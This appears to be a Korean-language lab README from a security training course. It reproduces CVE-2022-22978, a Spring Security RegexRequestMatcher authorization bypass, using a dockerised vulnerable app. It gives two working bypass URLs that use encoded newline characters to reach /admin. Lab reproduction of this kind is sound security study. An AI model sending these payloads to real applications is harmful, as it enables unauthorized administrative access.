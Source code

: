 # CVE-2022-22978

화이트햇 스쿨 3기 김태우_2249

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.
Spring Security 5.5.6 및 5.6.3 버전과 이보다 오래된 지원되지 않는 버전들에서는,
정규 표현식에 .(마침표)가 포함된 **RegexRequestMatcher**를 사용하는 애플리케이션이 인가 우회(authorization bypass) 취약점에 노출될 가능성이 있습니다.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## 환경 구성 및 실행

다음 명령어를 실행하여 Spring Security 5.6.3 기반의 웹 애플리케이션을 시작:

```
docker-compose up -d
```
서버 시작 후, <http://your-ip:8080/admin> 를 접속하여 admin 페이지가 막힘을 확인

![](admin_Forbidden.png)

## Vulnerability Reproduce

인증을 우회한 관리자 페이지에 접근하려면 다음 요청을 보냄

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](admin_Success.png)

